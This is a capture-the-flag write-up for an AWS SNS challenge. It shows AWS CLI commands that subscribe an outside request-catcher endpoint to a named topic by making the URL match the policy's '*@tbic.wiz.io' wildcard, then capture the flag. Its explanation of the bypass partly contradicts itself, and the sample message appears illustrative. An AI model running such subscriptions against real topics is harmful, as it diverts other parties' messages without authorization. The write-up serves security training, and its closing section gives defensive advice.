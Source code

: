 # Challenge 3

## Challenge Statement

In this challenge, we were provided with an AWS SNS (Simple Notification Service) policy that allowed public subscriptions. The goal was to subscribe to the SNS topic and retrieve the flag from the received message. This challenge tests knowledge of AWS SNS, subscription policies, and creative ways to receive messages without a valid email.

### SNS Policy

```json
{
  "Version": "2008-10-17",
  "Id": "Statement1",
  "Statement": [
    {
      "Sid": "Statement1",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "Condition": {
        "StringLike": {
          "sns:Endpoint": "*@tbic.wiz.io"
        }
      }
    }
  ]
}
```

## Analysis

The policy allows **anyone** (`"Principal": "*"`), to subscribe to the SNS topic **as long as their email address matches `*@tbic.wiz.io`**. This is a restrictive condition, as it prevents users without an email in that domain from subscribing via email.

However, AWS SNS supports multiple **protocols** beyond email, including:

- HTTP/HTTPS
- Lambda
- SQS
- SMS

The challenge here is **bypassing the email condition** by using an alternative protocol that is not restricted by the policy.

## Solution

Since we didn't have access to a `@tbic.wiz.io` email, we attempted an **HTTPS subscription** using a request-capturing service.

### **Step 1: Create a Request Catcher Endpoint**

1. We visited [RequestCatcher](https://requestcatcher.com/) to create a temporary endpoint.
2. Generated an HTTPS endpoint:
   ```
   https://hunny.requestcatcher.com/
   ```
3. Modified the endpoint to mimic an email by appending `test@tbic.wiz.io`:
   ```
   https://hunny.requestcatcher.com/test@tbic.wiz.io
   ```

### **Step 2: Subscribe to the SNS Topic**

We used the following AWS CLI command to subscribe with our HTTPS endpoint:

```bash
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint 'https://hunny.requestcatcher.com/test@tbic.wiz.io'
```

### **Step 3: Confirm the Subscription**

- SNS sends a **subscription confirmation** message to the provided endpoint.
- We checked `https://hunny.requestcatcher.com/` and found a **confirmation request** in the logs.
- The request contained a `SubscribeURL`, which we copied and opened in a browser to confirm our subscription.

### **Step 4: Receive the Flag**

Once subscribed, we published a message to the SNS topic using:

```bash
aws sns publish --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --message "Test message"
```

Shortly after, we checked our **RequestCatcher logs** and found an SNS message with the **flag** in the `Message` field:

```json
{
  "Type": "Notification",
  "MessageId": "abcd-1234",
  "TopicArn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message": "{wiz:always-suspect-asterisks}",
  "Timestamp": "2025-01-31T12:34:56.000Z"
}
```

The flag was:

```
FLAG-{wiz:always-suspect-asterisks}
```

## Reflection

### **Approach Taken**

- Examined the SNS policy to identify restrictions.
- Found that **email was restricted**, but **HTTPS subscriptions were not blocked**.
- Used `RequestCatcher` to create an HTTPS endpoint that could receive SNS messages.
- Subscribed using AWS CLI and confirmed the subscription.
- Retrieved the flag from the received SNS message.

### **Challenges Faced**

- Initially tried subscribing via email but couldn't bypass `*@tbic.wiz.io` restriction.
- Learning how to use `RequestCatcher` for SNS subscriptions.
- Needed to manually confirm the subscription using the `SubscribeURL`.

### **Security Takeaways**

- **Avoid wildcard permissions (`"Principal": "*"`)** in SNS policies.
- **Restrict SNS subscriptions to trusted accounts** using AWS IAM conditions.
- **Use `aws:SourceArn` condition** to limit SNS access to specific users or services.
- **Enable logging and monitoring** on SNS topics to detect unauthorized subscriptions.

This challenge reinforced how **SNS misconfigurations** can be exploited and why **proper security controls** are necessary for AWS services. 🚀
